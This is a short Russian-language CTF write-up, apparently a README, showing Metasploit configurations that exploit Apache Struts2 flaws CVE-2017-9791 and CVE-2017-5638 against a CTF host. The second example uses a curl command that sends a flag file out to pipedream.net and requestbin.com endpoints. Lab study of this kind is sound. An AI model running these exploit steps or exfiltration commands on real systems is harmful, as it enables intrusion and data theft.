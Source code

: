 ### Первый пример


Команды настройки msfconsole для (CVE-2017-9791)(Команды bash):

```bash
mfsconsole
search struts showcase
use exploit/multi/http/struts2_code_exec_showcase 
info
options
set RHOSTS ctf.hackeru.pro
set RPORT 21337
set TARGETURI /integration/saveGangster.action
set PAYLOAD cmd/unix/generic
set CMD 'cat /flag' 
check
exploit
```

### Второй пример (НЕ возвращает ответа, нужно использовать Out of Band)

Команды настройки msfconsole для (CVE-2017-5638)(Команды bash):

```bash
mfsconsole
search struts
search CVE-2017-5638
use exploit/multi/http/struts2_content_type_ognl
info
options
set RHOSTS ctf.hackeru.pro
set RPORT 21337
set TARGETURI /showcase.action
set PAYLOAD cmd/unix/generic
set CMD 'curl -F "file=$(cat /flag)" https://enttbjizbpehh.x.pipedream.net/'
check
exploit
```

Для атаки Out Of Band можно воспользоватся сервисом: requestbin.com.



Конфигурация эксплота:

```
Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     ctf.hackeru.pro      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      21337              yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /showcase.action  yes       The path to a struts application action
   VHOST                        no        HTTP server virtual host


Payload options (cmd/unix/generic):

   Name  Current Setting                      Required  Description
   ----  ---------------                      --------  -----------
   CMD   curl -F “data=@/flag” https://requestbin.com/r/en3xf2zsva94  yes       The command string to execute
```